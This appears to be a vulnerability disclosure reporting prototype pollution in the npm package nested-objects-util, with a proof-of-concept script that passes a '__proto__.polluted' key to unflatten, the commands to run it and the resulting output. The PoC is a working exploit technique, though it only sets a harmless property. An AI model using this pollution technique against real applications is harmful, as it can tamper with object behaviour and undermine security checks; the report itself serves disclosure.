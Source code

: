 # Description

`nested-objects-util` is vulnerable to `Prototype Pollution`.

# Proof of Concept

1. Create the following PoC file:

```
// poc.js
var {unflatten} = require("nested-objects-util")
console.log("Before : " + {}.polluted);
unflatten({"__proto__.polluted": "Yes! Its Polluted"})
console.log("After : " + {}.polluted);
```


2. Execute the following commands in terminal:

```
npm i nested-objects-util # Install affected module
node poc.js #  Run the PoC
```

3. Check the Output:
```
Before : undefined
After : Yes! Its Polluted
```
